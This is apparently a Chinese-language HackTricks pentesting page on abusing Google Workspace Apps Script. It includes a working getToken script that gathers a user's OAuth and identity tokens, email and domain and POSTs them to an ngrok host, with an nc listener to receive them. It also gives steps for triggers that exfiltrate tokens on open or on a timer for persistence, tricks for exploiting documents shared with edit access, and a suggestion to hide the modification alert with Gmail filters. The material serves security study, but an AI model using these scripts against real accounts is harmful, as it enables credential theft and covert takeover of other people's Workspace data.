 # GWS - App Scripts

{{#include ../../../banners/hacktricks-training.md}}

## App Scripts

App Scripts 是 **当具有编辑权限的用户访问与 App Script 关联的文档时触发的代码**，并在 **接受 OAuth 提示后**。\
它们还可以由 App Script 的所有者设置为 **每隔一定时间执行**（持久性）。

### 创建 App Script

有几种方法可以创建 App Script，尽管最常见的方法是 **从 Google 文档（任何类型）** 和作为 **独立项目**：

<details>

<summary>从 Google Docs、Sheets 或 Slides 创建一个容器绑定项目</summary>

1. 打开一个 Docs 文档、一个 Sheets 电子表格或一个 Slides 演示文稿。
2. 点击 **扩展** > **Google Apps Script**。
3. 在脚本编辑器中，点击 **未命名项目**。
4. 给你的项目命名，然后点击 **重命名**。

</details>

<details>

<summary>创建一个独立项目</summary>

要从 Apps Script 创建一个独立项目：

1. 访问 [`script.google.com`](https://script.google.com/)。
2. 点击添加 **新项目**。
3. 在脚本编辑器中，点击 **未命名项目**。
4. 给你的项目命名，然后点击 **重命名**。

</details>

<details>

<summary>从 Google Drive 创建一个独立项目</summary>

1. 打开 [Google Drive](https://drive.google.com/)。
2. 点击 **新建** > **更多** > **Google Apps Script**。

</details>

<details>

<summary>从 Google Forms 创建一个容器绑定项目</summary>

1. 在 Google Forms 中打开一个表单。
2. 点击更多 more_vert > **脚本编辑器**。
3. 在脚本编辑器中，点击 **未命名项目**。
4. 给你的项目命名，然后点击 **重命名**。

</details>

<details>

<summary>使用 clasp 命令行工具创建一个独立项目</summary>

`clasp` 是一个命令行工具，允许你从终端创建、拉取/推送和部署 Apps Script 项目。

有关更多详细信息，请参阅 [使用 `clasp` 的命令行界面指南](https://developers.google.com/apps-script/guides/clasp)。

</details>

## App Script 场景 <a href="#create-using-clasp" id="create-using-clasp"></a>

### 使用 App Script 创建 Google 表格

首先创建一个 App Script，我对这个场景的建议是创建一个 Google 表格并转到 **`扩展 > App Scripts`**，这将为你打开一个 **与表格关联的新 App Script**。

### 泄露令牌

为了提供对 OAuth 令牌的访问，你需要点击 **`服务 +` 并添加范围，例如**：

- **AdminDirectory**：访问目录的用户和组（如果用户具有足够的权限）
- **Gmail**：访问 Gmail 数据
- **Drive**：访问 Drive 数据
- **Google Sheets API**：以便与触发器一起工作

要自行更改 **所需的范围**，你可以转到项目设置并启用：**`在编辑器中显示 "appsscript.json" 清单文件`。
```javascript
function getToken() {
var userEmail = Session.getActiveUser().getEmail()
var domain = userEmail.substring(userEmail.lastIndexOf("@") + 1)
var oauthToken = ScriptApp.getOAuthToken()
var identityToken = ScriptApp.getIdentityToken()

// Data json
data = {
oauthToken: oauthToken,
identityToken: identityToken,
email: userEmail,
domain: domain,
}

// Send data
makePostRequest(data)

// Use the APIs, if you don't even if the have configured them in appscript.json the App script won't ask for permissions

// To ask for AdminDirectory permissions
var pageToken = ""
page = AdminDirectory.Users.list({
domain: domain, // Use the extracted domain
orderBy: "givenName",
maxResults: 100,
pageToken: pageToken,
})

// To ask for gmail permissions
var threads = GmailApp.getInboxThreads(0, 10)

// To ask for drive permissions
var files = DriveApp.getFiles()
}

function makePostRequest(data) {
var url = "http://5.tcp.eu.ngrok.io:12027"

var options = {
method: "post",
contentType: "application/json",
payload: JSON.stringify(data),
}

try {
UrlFetchApp.fetch(url, options)
} catch (e) {
Logger.log("Error making POST request: " + e.toString())
}
}
```
要捕获请求，您只需运行：
```bash
ngrok tcp 4444
nc -lv 4444 #macOS
```
请求执行 App Script 的权限：

<figure><img src="../../../images/image (334).png" alt=""><figcaption></figcaption></figure>

> [!WARNING]
> 由于发出了外部请求，OAuth 提示也会 **请求访问外部端点的权限**。

### 创建触发器

一旦读取了应用，点击 **⏰ Triggers** 创建触发器。作为 **function** 选择 **`getToken`**，在部署中选择 **`Head`**，在事件源中选择 **`From spreadsheet`**，在事件类型中选择 **`On open`** 或 **`On edit`**（根据您的需要）并保存。

请注意，如果您想调试某些内容，可以在执行选项卡中检查 **App Scripts 的运行情况**。

### 共享

为了 **触发** **App Script**，受害者需要以 **编辑者访问** 连接。

> [!TIP]
> 用于执行 **App Script** 的 **token** 将是 **触发器创建者的 token**，即使文件被其他用户以编辑者身份打开。

### 滥用与我共享的文档

> [!CAUTION]
> 如果有人 **与您共享了一个包含 App Scripts 和使用 App Script 的 Head 的触发器的文档**（而不是固定部署），您可以修改 App Script 代码（例如添加窃取 token 的功能），访问它，并且 **App Script 将以与您共享文档的用户的权限执行**！ （请注意，所有者的 OAuth token 将具有在创建触发器时给予的访问范围）。
>
> **将向脚本的创建者发送通知，指示有人修改了脚本**（使用 Gmail 权限生成过滤器以防止警报怎么样？）

> [!TIP]
> 如果 **攻击者修改了 App Script 的范围**，更新 **不会应用** 到文档，直到创建一个 **带有更改的新触发器**。因此，攻击者将无法窃取比他在创建的触发器中设置的范围更多的所有者创建者 token。

### 复制而不是共享

当您创建一个共享文档的链接时，会创建一个类似于以下的链接：`https://docs.google.com/spreadsheets/d/1i5[...]aIUD/edit`\
如果您 **将** 结尾的 **"/edit"** 更改为 **"/copy"**，而不是访问它，谷歌会询问您是否要 **生成文档的副本：**

<figure><img src="../../../images/image (335).png" alt=""><figcaption></figcaption></figure>

如果用户复制并访问它，**文档的内容和 App Scripts 将被复制**，但是 **触发器不会**，因此 **不会执行任何操作**。

### 作为 Web 应用共享

请注意，**将 App Script 作为 Web 应用共享**（在 App Script 的编辑器中，部署为 Web 应用）也是可能的，但会出现如下警报：

<figure><img src="../../../images/image (337).png" alt=""><figcaption></figcaption></figure>

随后是 **典型的 OAuth 提示** 请求所需的权限。

### 测试

您可以测试收集到的 token 来列出电子邮件：
```bash
curl -X GET "https://www.googleapis.com/gmail/v1/users/<user@email>/messages" \
-H "Authorization: Bearer <token>"
```
列出用户的日历：
```bash
curl -H "Authorization: Bearer $OAUTH_TOKEN" \
-H "Accept: application/json" \
"https://www.googleapis.com/calendar/v3/users/me/calendarList"
```
## App Script 作为持久性

一个持久性的选项是**创建一个文档并为 getToken 函数添加触发器**，并将文档分享给攻击者，这样每次攻击者打开文件时，他**就会提取受害者的令牌。**

还可以创建一个 App Script，并使其每 X 时间（如每分钟、每小时、每天）触发。一个**已获取受害者凭据或会话的攻击者可以设置一个 App Script 时间触发器，并每天泄露一个非常特权的 OAuth 令牌**：

只需创建一个 App Script，转到触发器，点击添加触发器，选择事件源为时间驱动，并选择最适合您的选项：

<figure><img src="../../../images/image (336).png" alt=""><figcaption></figcaption></figure>

> [!CAUTION]
> 这将创建一个安全警报电子邮件和一条推送消息到您的手机，提醒您有关此事。

### 共享文档未验证提示绕过

此外，如果有人**与您共享**了一个**编辑访问权限**的文档，您可以在文档中生成**App Scripts**，而**文档的所有者（创建者）将是 App Script 的所有者**。

> [!WARNING]
> 这意味着，**文档的创建者将出现在任何具有编辑访问权限的人在其中创建的 App Script 的创建者中。**
>
> 这也意味着**App Script 将被文档创建者的 Workspace 环境信任。**

> [!CAUTION]
> 这也意味着，如果**App Script 已经存在**并且人们已**授予访问权限**，那么任何具有**编辑**权限的人都可以**修改它并滥用该访问权限。**\
> 要滥用这一点，您还需要人们触发 App Script。而一个巧妙的技巧是**将脚本发布为网络应用**。当**已经授予**App Script 访问权限的人访问网页时，他们将**触发 App Script**（这也可以通过使用 `<img>` 标签实现）。

{{#include ../../../banners/hacktricks-training.md}}
